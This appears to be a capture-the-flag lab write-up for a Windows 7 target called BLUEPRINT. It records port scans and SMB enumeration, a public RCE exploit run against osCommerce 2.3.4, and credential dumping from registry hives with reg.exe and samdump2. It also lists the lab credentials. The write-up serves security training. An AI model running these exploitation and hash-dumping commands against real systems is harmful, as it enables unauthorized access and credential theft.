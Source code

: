 **Hostname:** `BLUEPRINT`

**OS:** Windows 7

**Users:**
```
Lab
```

**Credentials:**
```
Lab:googleplus
```

===============================================================

## Port Scan:

```
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
|_http-title: 404 - File or directory not found.
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2019-04-11 22:52  oscommerce-2.3.4/
| -     2019-04-11 22:52  oscommerce-2.3.4/catalog/
| -     2019-04-11 22:52  oscommerce-2.3.4/docs/
|_
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
| http-methods: 
|_  Potentially risky methods: TRACE
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
445/tcp   open  microsoft-ds Windows 7 Home Basic 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql        MariaDB (unauthorized)
8080/tcp  open  http         Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2019-04-11 22:52  oscommerce-2.3.4/
| -     2019-04-11 22:52  oscommerce-2.3.4/catalog/
| -     2019-04-11 22:52  oscommerce-2.3.4/docs/
|_
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
Service Info: Hosts: www.example.com, BLUEPRINT, localhost; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-05-30T10:50:22
|_  start_date: 2025-05-30T10:41:52
|_nbstat: NetBIOS name: BLUEPRINT, NetBIOS user: <unknown>, NetBIOS MAC: 02:ba:ce:fe:ba:b5 (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: -29m01s, deviation: 34m37s, median: -9m02s
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 7 Home Basic 7601 Service Pack 1 (Windows 7 Home Basic 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1
|   Computer name: BLUEPRINT
|   NetBIOS computer name: BLUEPRINT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-05-30T11:50:22+01:00

```

===============================================================

## Recon:

### SMB:

**enum4linux:**

```
Nbtstat Information for 10.10.91.33:

Looking up status of 10.10.91.33
	BLUEPRINT       <00> -         B <ACTIVE>  Workstation Service
	WORKGROUP       <00> - <GROUP> B <ACTIVE>  Domain/Workgroup Name
	BLUEPRINT       <20> -         B <ACTIVE>  File Server Service
	WORKGROUP       <1e> - <GROUP> B <ACTIVE>  Browser Service Elections
	WORKGROUP       <1d> -         B <ACTIVE>  Master Browser
	..__MSBROWSE__. <01> - <GROUP> B <ACTIVE>  Master Browser

	MAC Address = 02-BA-CE-FE-BA-B5


Share Enumeration on 10.10.91.33:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	Users           Disk      
	Windows         Disk      

[+] Attempting to map shares on 10.10.91.33

//10.10.91.33/ADMIN$	Mapping: DENIED Listing: N/A Writing: N/A
//10.10.91.33/C$	Mapping: DENIED Listing: N/A Writing: N/A

[E] Can't understand response:

NT_STATUS_INVALID_PARAMETER listing \*
//10.10.91.33/IPC$	Mapping: N/A Listing: N/A Writing: N/A
//10.10.91.33/Users	Mapping: OK Listing: OK Writing: N/A
//10.10.91.33/Windows	Mapping: OK Listing: DENIED Writing: N/A

Password Policy Information for 10.10.91.33:

[+] Attaching to 10.10.91.33 using anonymous

[+] Trying protocol 139/SMB...

	[!] Protocol failed: Cannot request session (Called Name:10.10.91.33)

[+] Trying protocol 445/SMB...

[+] Found domain(s):

	[+] BLUEPRINT
	[+] Builtin

[+] Password Info for Domain: BLUEPRINT

	[+] Minimum password length: None
	[+] Password history length: None
	[+] Maximum password age: Not Set
	[+] Password Complexity Flags: 000000

		[+] Domain Refuse Password Change: 0
		[+] Domain Password Store Cleartext: 0
		[+] Domain Password Lockout Admins: 0
		[+] Domain Password No Clear Change: 0
		[+] Domain Password No Anon Change: 0
		[+] Domain Password Complex: 0

	[+] Minimum password age: None
	[+] Reset Account Lockout Counter: 30 minutes 
	[+] Locked Account Duration: 30 minutes 
	[+] Account Lockout Threshold: None
	[+] Forced Log off Time: Not Set```
```

**Anonymous login:**

```
Share           Permissions     Remark
-----           -----------     ------
ADMIN$                          Remote Admin
C$                              Default share
IPC$                            Remote IPC
Users           READ            
Windows
```

### Web Enumeration:

**Vulnerable CMS on port 8080:**
Port 8080 is an HTTP server running an oscommerce 2.3.4 CMS which is vulnerable to Unauthenticated Remote Code Execution by injecting a PHP payload into the db_database parameter of the install.php and read the system command output from configure.php.
https://www.exploit-db.com/exploits/50128

===============================================================
## Foothold / Privilege Escalation:

### Initial Foothold:

After enumerating and manual inspection of port 8080 I found that the server was running a vulnerable version of the OScommerce CMS specifically version 2.3.4, which is vulnerable to an Unauthenticated Remote Code Execution vulnerability.

![CMS_directory](../pictures/blueprint/CMS_directory.png)

I found a working script on the exploit-db.com site and used it's syntax to get a shell.
`python exploit.py http://$IP:8080/oscommerce2.3.4/catalog/`

![exploit_db_page](../pictures/blueprint/exploit_db_code.png)

![exploit_execute](../pictures/blueprint/exploit_run.png)

---

### Privilege Escalation:

As I ran the exploit and got a shell, I ran `whoami` and found that the RCE exploit
gives an Administrator shell. I could just into the Administrator directory and extract the root flag.

===============================================================

## Journal:
### User NTLM Hashes:
- Located in registry keys SAM, SECURITY and SYSTEM
I dumped the hashes using reg.exe:\
`reg.exe save hklm\sam SAM`\
`reg.exe save hklm\security SECURITY`\
`reg.exe save hklm\system SYSTEM`
- This saved the registry keys to my current working directory

![hash_registry_files_extracting](../pictures/blueprint/hash_registry_extract.png)

To dump the hashes out of the registry files I used a tool called '**samdump2'**:
```
$ samdump2 SYSTEM SAM
Administrator:500:...
Guest:501:...
Lab:1000:...
```

![hash_registry_dump](../pictures/blueprint/hash_dump.png)